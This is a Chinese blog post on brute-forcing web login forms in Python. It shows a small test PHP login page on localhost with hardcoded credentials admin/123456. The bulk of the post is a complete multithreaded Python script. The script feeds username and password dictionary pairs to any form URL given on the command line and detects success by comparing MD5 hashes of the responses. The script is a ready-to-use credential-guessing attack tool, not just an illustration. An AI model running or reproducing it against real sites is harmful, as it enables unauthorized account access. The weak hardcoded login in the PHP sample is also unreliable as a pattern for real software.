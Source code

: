+++
date = "2016-09-05T23:43:22+08:00"
description = ""
draft = false
tags = ["python", "爆破"]
title = "Python实现表单爆破"
topics = ["Python", "Pentest"]

+++

## 接收变量的php脚本如下
> ```php
//代码仅供测试
<?php
    $name = @$_POST['uname'];
    $pass = @$_POST['upass'];

    if (empty($name) or empty($pass)){
        header("location:http://127.0.0.1:921/test/test/index.html");
        exit();
    } else {
        if ($name === 'admin' and $pass === '123456'){
            header("location:http://127.0.0.1:921/test/test/sucess.html");
        } else {
            header("location:http://127.0.0.1:921/test/test/error.html");
            exit();
        }
    }
?>
```

## 爆破表单的python脚本如下
> ```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import hashlib
import requests
from Queue import Queue
import threading
from optparse import OptionParser
from time import sleep

lock = threading.Lock()
queue = Queue()
result = []

class FormBlast(threading.Thread):
    """docstring for FormBlast"""
    def __init__(self, *arg):
        super(FormBlast, self).__init__()
        (options,args,queue) = arg
        self.url = options.url
        self.fname = options.fname
        self.fpass = options.fpass
        self.args = args
        self.queue = queue
        self.s = requests.Session()
        self.base_md5 = ''

    def get_payload(self, vname, vpass):
        dict2 = {}
        if self.args:
            for x in self.args:
                (key,value) = x.split('=')
                dict2[key] = value
        dict1 = {self.fname: vname, self.fpass: vpass}
        payload = dict(dict1, **dict2)
        return payload

    def get_md5(self, html):
        md5 = hashlib.md5()
        md5.update(html)
        return md5.hexdigest()

    def get_base_md5(self):
        proxy = {
            'http': 'http://127.0.0.1:8080'
        }
        payload = self.get_payload('1', '1')
        resp = self.s.post(self.url, data=payload)
        resp.coding = resp.apparent_encoding
        html = resp.text
        self.base_md5 = self.get_md5(html)

                        
    def run(self):
        # global result
        self.get_base_md5()
        while not self.queue.empty():
            (user,pwd) = self.queue.get().split(':')
            payload = self.get_payload(user,pwd)
            try:
                resp = self.s.post(self.url, data=payload, timeout=10)
                resp.coding = resp.apparent_encoding
                code = resp.status_code
                html = resp.text
                curr_md5 = self.get_md5(html)

                if curr_md5 != self.base_md5 and code==200:
                    s = "[Ok] User:%s Pass:%s" % (user,pwd)
                    result.append(s)
                    lock.acquire()
                    print s
                    lock.release()
                    self.queue.task_done()
                else:
                    error = "[Error] User:%s Pass:%s" % (user,pwd)
                    lock.acquire()
                    print error
                    lock.release()
                    self.queue.task_done()
            except requests.exceptions.ConnectTimeout:
                self.queue.put(user+':'+pwd)
            except:
                pass
        # print self.result


def get_content(filename):
    data = []
    with open(filename) as f:
        lines = f.readlines()
        for line in lines:
            data.append(line.strip())
    return data

def get_queue(list1, list2):
    for user in list1:
        for pwd in list2:
            queue.put(user+':'+pwd)

def main():
    parser = OptionParser()
    parser.add_option('-u','--url',dest='url',
                        help='Get target url')
    parser.add_option('-n','--fname',dest='fname',
                        help='The user name in the form')
    parser.add_option('-p','--fpass',dest='fpass',
                        help='The pass name in the form')
    parser.add_option('-L','--namefile',dest='namefile',default='namefile.txt',
                        help='The user name dictionary files')
    parser.add_option('-P','--passfile',dest='passfile',default='passfile.txt',
                        help='The password dictionary files')
    (options,args) = parser.parse_args()

    if options.url and options.fname and options.fpass and options.namefile and options.passfile:
        users = []
        pwds = []
        users = get_content(options.namefile)
        pwds = get_content(options.passfile)
        get_queue(users, pwds)

        for x in xrange(1,41):
            blast = FormBlast(options, args, queue)
            blast.setDaemon(True)
            blast.start()
        queue.join()

        sleep(3)
        print "########################################"
        for x in result:
            print x
    else:
        parser.print_help()


if __name__ == '__main__':
    main()
```

## 结果
> {{% fluid_img src="/img/post/form_blast1.png" alt="表单爆破1" %}}
<br /><br />
{{% fluid_img src="/img/post/form_blast2.png" alt="表单爆破2" %}}